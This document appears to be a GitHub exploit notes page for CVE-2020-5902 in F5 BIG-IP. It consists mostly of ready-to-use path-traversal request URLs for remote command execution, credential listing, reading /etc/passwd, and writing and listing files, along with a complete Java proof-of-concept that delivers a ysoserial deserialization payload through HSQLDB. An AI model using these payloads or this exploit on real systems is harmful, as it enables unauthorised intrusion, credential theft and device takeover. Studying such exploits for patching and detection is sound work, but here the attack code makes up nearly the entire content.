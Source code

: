 # CVE-2020-5902
## RCE
/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list
/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/WWWWW&content=id
/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/WWWWW

## ysoserial
```
/*
 Exploit Title: F5 BIG-IP Remote Code Execution
 Date: 2020-07-06
 Authors: Charles Dardaman of Critical Start, TeamARES
                  Rich Mirch of Critical Start, TeamARES
 CVE: CVE-2020-5902

 Requirements:
   Java JDK
   hsqldb.jar 1.8
   ysoserial https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
*/

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.Statement;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.io.IOException;
import org.hsqldb.lib.StringConverter;

public class f5RCE {

	public static void main(String[] args) {
		Connection connection;
		Statement statement;

		if(args.length != 2) {
			System.err.println("\nUsage: <hostname> <payload.txt>\n");
			System.exit(1);
		}
		String server = args[0];
		String pfile = args[1];
		String payload = null;

		try {
			payload = new String(Files.readAllBytes(Paths.get(pfile)));
			payload = payload.replaceAll("(\\n|\\r)","");
		} catch (IOException e) {
			e.printStackTrace();
		}

		String dburl = "jdbc:hsqldb:https://" + server +
                               ":443/tmui/login.jsp/..%3b/hsqldb/";

		System.out.println("Connecting to " + server);
		try {
			Class.forName("org.hsqldb.jdbcDriver");
			connection = DriverManager.getConnection(dburl, "sa","");
			statement = connection.createStatement();
			statement.execute("call \"java.lang.System.setProperty\"('org.apache.commons.collections.enableUnsafeSerialization','true')");
			statement.execute("call \"org.hsqldb.util.ScriptTool.main\"('" + payload +"');");
		} catch (java.sql.SQLException sqle) {
			// ignore java.sql.SQLException: S1000
			// General error java.lang.IllegalArgumentException: argument type mismatch
			if(sqle.getSQLState().equals("S1000") && sqle.getErrorCode() == 40) {
				System.out.println("Payload executed");
			} else {
				System.out.println("Unexpected SQL error");
				sqle.printStackTrace();
			}
			return;
		}
		catch (ClassNotFoundException cne) {
			System.err.println("Error loading db driver");
			cne.printStackTrace();
			return;
		}
	}
}

```

## Read password
/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user

## Read file
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

## Write file
/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/WWWWW&content=id

## List file
/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/

## Orange Tsai-Breaking-Parser-Logic
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
